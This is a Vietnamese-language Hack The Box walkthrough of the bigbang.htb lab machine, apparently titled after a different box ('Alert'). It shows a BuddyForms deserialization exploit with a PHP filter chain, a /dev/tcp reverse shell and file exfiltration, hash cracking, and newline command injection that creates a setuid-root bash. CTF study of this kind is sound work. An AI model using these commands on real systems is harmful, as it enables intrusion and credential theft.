


<p align="center"></p>

# Alert Hackthebox
## Nmap, wpscan, burpsuite, php filter chain,cnext-exploit,grafana.sqlite,moblie,hashcat
### Nmap
```
nmap -sC -sV -Pn -oA nmap/output 10.10.11.52
```
<pre style="border: 1px solid #ccc; padding: 10px; border-radius: 5px;">
# Nmap 7.95 scan initiated Mon May  5 14:11:58 2025 as: /usr/lib/nmap/nmap --privileged -p- --min-rate=1000 -sC -sV -Pn -oA nmap/output 10.10.11.52
Nmap scan report for 10.10.11.52
Host is up (0.19s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 d4:15:77:1e:82:2b:2f:f1:cc:96:c6:28:c1:86:6b:3f (ECDSA)
|_  256 6c:42:60:7b:ba:ba:67:24:0f:0c:ac:5d:be:92:0c:66 (ED25519)
80/tcp open  http    Apache httpd 2.4.62
|_http-server-header: Apache/2.4.62 (Debian)
|_http-title: Did not follow redirect to http://blog.bigbang.htb/
Service Info: Host: blog.bigbang.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon May  5 14:13:31 2025 -- 1 IP address (1 host up) scanned in 92.71 seconds

</pre>

### Mở trang tài khoản
<p align="center"></p>

### Check version bằng wpscan
```
wpscan -e ap --plugins-detection passive --url http://blog.bigbang.htb
```
Version buddy 2.7.7
<pre style="border: 1px solid #ccc; padding: 10px; border-radius: 5px;">
[+] buddyforms
 | Location: http://blog.bigbang.htb/wp-content/plugins/buddyforms/
 | Last Updated: 2025-02-27T23:01:00.000Z
 | [!] The version is out of date, the latest version is 2.8.17
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | Version: 2.7.7 (80% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://blog.bigbang.htb/wp-content/plugins/buddyforms/readme.txt
</pre>
### Chạy lệnh POST trên burpsuite như sau theo lỗi cve [đây](https://medium.com/tenable-techblog/wordpress-buddyforms-plugin-unauthenticated-insecure-deserialization-cve-2023-26326-3becb5575ed8)
```
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: blog.bigbang.htb
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 1552

action=upload_image_from_url&url=http:ip:port/test&id=1&accepted_files=image/gif

```
File `test` có nội dung sau `GIF89a` signature của GIF
```
GIF89aByPass
```
Sau khi chạy trả response có body
<pre style="border: 1px solid #ccc; padding: 10px; border-radius: 5px;">
{"status":"OK","response":"http:\/\/blog.bigbang.htb\/wp-content\/uploads\/2025\/05\/1-60.png","attachment_id":215}' | jq
{
  "status": "OK",
  "response": "http://blog.bigbang.htb/wp-content/uploads/2025/05/1-60.png",
  "attachment_id": 215
}
</pre>
<p align="center"></p>

### Dùng php filter chain để lọc signature trong Header thể  bypass filter để exploit [source](https://github.com/synacktiv/php_filter_chain_generator/blob/main/php_filter_chain_generator.py)
```
python3 php_filter_chain.py --chain GIF89a
```
<pre style="border: 1px solid #ccc; padding: 10px; border-radius: 5px;">
php://filter/convert.iconv.UTF8 .... 4-decode/resource=php://temp
</pre>

### Chạy mã exploit để tấn công Controlled heap metadata corruption thông qua xử lý sai trong chuỗi filter + encoding [🔗 Xem mã khai thác exploit.py](./exploit.py)
```
uv run exploit.py http://blog.bigbang.htb id
[*] The php://filter/ wrapper works
[*] The zlib extension is enabled
[+] Exploit preconditions are satisfied
[*] Potential heaps: 0x7fc734200040, 0x7fc734000040, 0x7fc732a00040, 0x7fc730400040, 0x7fc72f000040 
(using first)

     EXPLOIT  SUCCESS 
```
Thực thi được mã code để reverse shell

```
uv run exploit.py http://blog.bigbang.htb 'bash -c "bash -i >& /dev/tcp/10.10.14.8/3000 0>&1"'
[*] The php://filter/ wrapper works
[*] The zlib extension is enabled
[+] Exploit preconditions are satisfied
[*] Potential heaps: 0x7fc734200040, 0x7fc734000040, 0x7fc732a00040, 0x7fc730200040, 
0x7fc72fa00040, 0x7fc72ec00040 (using first)

     EXPLOIT  SUCCESS 
```
```
nc -lnvp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.52 41526
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
www-data@bf9a078a3627:/var/www/html/wordpress/wp-admin$ 
```
### Tải xuống [sql.php](./www/sql.php) về máy nạn nhân để chạy sql
```
php sql.php 'show databases;'
{
    "Database": "information_schema"        
}
{
    "Database": "performance_schema"                
}
{                                           
    "Database": "wordpress"
}
```
```
php sql.php 'select * from wp_users;'
{
    "ID": "1",
    "user_login": "root",
    "user_pass": "$P$Beh5HLRUlTi1LpLEAstRyXaaBOJICj1",
    "user_nicename": "root",
    "user_email": "root@bigbang.htb",
    "user_url": "http:\/\/blog.bigbang.htb",
    "user_registered": "2024-05-31 13:06:58",
    "user_activation_key": "",
    "user_status": "0",
    "display_name": "root"
}
{
    "ID": "3",
    "user_login": "shawking",
    "user_pass": "$P$Br7LUHG9NjNk6\/QSYm2chNHfxWdoK.\/",
    "user_nicename": "shawking",
    "user_email": "shawking@bigbang.htb",
    "user_url": "",
    "user_registered": "2024-06-01 10:39:55",
    "user_activation_key": "",
    "user_status": "0",
    "display_name": "Stephen Hawking"
}
```
### hashcat được shawking nhưng ko được root
```
hashcat bigbang.htb/hash.txt /usr/share/wordlists/rockyou.txt --user 
```
<pre style="border: 1px solid #ccc; padding: 10px; border-radius: 5px;">
$P$Br7LUHG9NjNk6/QSYm2chNHfxWdoK./:quantumphysics
</pre>

### Check port mở thấy port của grafana và 9090
### Tải grafana.db về máy local và check bằng sqlite
```
sqlite> .headers on
sqlite> select * from user;
id|version|login|email|name|password|salt|rands|company|org_id|is_admin|email_verified|theme|created|updated|help_flags1|last_seen_at|is_disabled|is_service_account|uid
1|0|admin|admin@localhost||441a715bd788e928170be7954b17cb19de835a2dedfdece8c65327cb1d9ba6bd47d70edb7421b05d9706ba6147cb71973a34|CFn7zMsQpf|CgJll8Bmss||1|1|0||2024-06-05 16:14:51|2024-06-05 16:16:02|0|2024-06-05 16:16:02|0|0|
2|0|developer|ghubble@bigbang.htb|George Hubble|7e8018a4210efbaeb12f0115580a476fe8f98a4f9bada2720e652654860c59db93577b12201c0151256375d6f883f1b8d960|4umebBJucv|0Whk1JNfa3||1|0|0||2024-06-05 16:17:32|2025-01-20 16:27:39|0|2025-01-20 16:27:19|0|0|ednvnl5nqhse8d
```
```
cat grafana_hashsalt 
441a715bd788e928170be7954b17cb19de835a2dedfdece8c65327cb1d9ba6bd47d70edb7421b05d9706ba6147cb71973a34,CFn7zMsQpf
7e8018a4210efbaeb12f0115580a476fe8f98a4f9bada2720e652654860c59db93577b12201c0151256375d6f883f1b8d960,4umebBJucv
```
```
python grafana2hashcat.py grafana_hashsalt -o grafanahashes

[+] Grafana2Hashcat
[+] Reading Grafana hashes from:  grafana_hashsalt
[+] Done! Read 2 hashes in total.
[+] Converting hashes...
[+] Converting hashes complete.
[+] Writing output to 'grafanahashes' file.
[+] Now, you can run Hashcat with the following command, for example:

hashcat -m 10900 hashcat_hashes.txt --wordlist wordlist.txt

cat grafanahashes
sha256:10000:Q0ZuN3pNc1FwZg==:RBpxW9eI6SgXC+eVSxfLGd6DWi3t/ezoxlMnyx2bpr1H1w7bdCGwXZcGumFHy3GXOjQ=
sha256:10000:NHVtZWJCSnVjdg==:foAYpCEO+66xLwEVWApHb+j5ik+braJyDmUmVIYMWduTV3sSIBwBUSVjddb4g/G42WA=
```
hash cat file trên 
```
hashcat bigbang.htb/grafanahashes /usr/share/wordlists/rockyou.txt
```
```
sha256:10000:NHVtZWJCSnVjdg==:foAYpCEO+66xLwEVWApHb+j5ik+braJyDmUmVIYMWduTV3sSIBwBUSVjddb4g/G42WA=:bigbang
```
pass developer là `bigbang`

### Sang user developer
có file satelite.apk tải về máy
```
cat satellite-app.apk >/dev/tcp/10.10.14.8/3001
```
Forward port 9090 để burpsuite bắt
```
ssh -L 9090:127.0.0.1:9090 developer@bigbang.htb
```
Bật intercept vào chạy lệnh sau 
```
curl -x http://127.0.0.1:8080 http://127.0.0.1:9090
```
### Sửa thành post vào lấy access_token
<p align="center"></p>
Có hàm `send_image` chạy được os
```
/bin/sh -c /usr/local/bin/image-tool --get-image /dev/shm/test
```
<p align="center"></p>
Copy file bash và chạy phân quyền cho `bash`
```
cp /bin/bash /var/tmp/


```
"output_file":"/dev/shm/test\nchown root:root /var/tmp/bash"
"output_file":"/dev/shm/test\nchmod 4775 /var/tmp/bash"
```
<p align="center"></p>
```
developer@bigbang:/var/tmp$ ll
total 4428
drwxrwxrwt  8 root      root         4096 May 15 08:04 ./
drwxr-xr-x 13 root      root         4096 Aug 10  2023 ../
-rwsrwxr-x  1 root      root      1396520 May 15 08:04 bash*
```
Chạy bash
```
bash -p
```
<pre style="border: 1px solid #ccc; padding: 10px; border-radius: 5px;">
developer@bigbang:/var/tmp$ /var/tmp/bash -p
bash-5.1# ls
bash
pspy64
systemd-private-5f1e89778b1949849500eca4d1ad98c2-fwupd.service-50bTVe
systemd-private-5f1e89778b1949849500eca4d1ad98c2-ModemManager.service-nrZoU4
systemd-private-5f1e89778b1949849500eca4d1ad98c2-systemd-logind.service-Qi4Qzl
systemd-private-5f1e89778b1949849500eca4d1ad98c2-systemd-resolved.service-JFVEJu
systemd-private-5f1e89778b1949849500eca4d1ad98c2-systemd-timesyncd.service-RCqGuX
systemd-private-5f1e89778b1949849500eca4d1ad98c2-upower.service-sofSPO
bash-5.1# cd /root/root.txt 
bash: cd: /root/root.txt: Not a directory
bash-5.1# cat /root/root.txt 
</pre>

